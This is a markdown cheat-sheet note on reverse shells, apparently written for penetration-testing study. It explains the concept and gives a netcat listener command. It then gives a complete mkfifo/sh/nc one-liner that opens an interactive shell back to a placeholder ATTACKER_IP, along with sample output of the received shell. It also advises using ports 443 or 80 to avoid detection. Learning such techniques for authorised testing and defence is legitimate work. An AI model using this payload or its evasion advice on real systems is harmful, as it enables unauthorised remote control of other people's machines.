    
# 🌐 Reverse Shell
[Pentest Monkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
## 📋 Purpose

A **reverse shell** (or "connect back shell") initiates a connection from the compromised target to the attacker’s machine, bypassing firewalls and security appliances by blending with legitimate traffic.

## 🔍 How It Works

1. **Listener Setup**: The attacker sets up a listener on their machine.
2. **Payload Execution**: The target runs a payload exploiting a vulnerability or unauthorized access.
3. **Connection**: The target connects to the attacker, exposing a shell.

## 🚀 Example with Netcat

### Set Up Listener

```bash
nc -lvnp 443  # Listens on port 443
```

- `-l`: Listen mode.
- `-v`: Verbose output.
- `-n`: No DNS resolution.
- `-p`: Specifies port (e.g., 443, 80, or 8080 to blend with traffic).

### Execute Payload (Pipe Reverse Shell)

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP 443 >/tmp/f
```

- **Breakdown**:
    - `rm -f /tmp/f`: Removes existing pipe.
    - `mkfifo /tmp/f`: Creates a named pipe for two-way communication.
    - `cat /tmp/f | sh -i 2>&1`: Reads pipe, starts interactive shell, redirects errors.
    - `nc ATTACKER_IP 443`: Connects to attacker’s IP and port.
    - `>/tmp/f`: Sends output back to the pipe.

### Attacker Receives Shell

```bash
nc -lvnp 443
# Output: connect to [ATTACKER_IP] from [TARGET_IP] 59964
target@tryhackme:~$
```

## 🛠 Resources

- [Pentest Monkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## ✅ Quick Notes

- **Reverse Shell**: Allows remote command execution after the target connects back to the attacker.
- **Netcat**: Commonly used to set up listeners for reverse shells.
- **Port Strategy**: Use common ports (e.g., 443, 80) to avoid detection.
- **Detection**: Harder to detect due to outbound connections mimicking legitimate traffic.


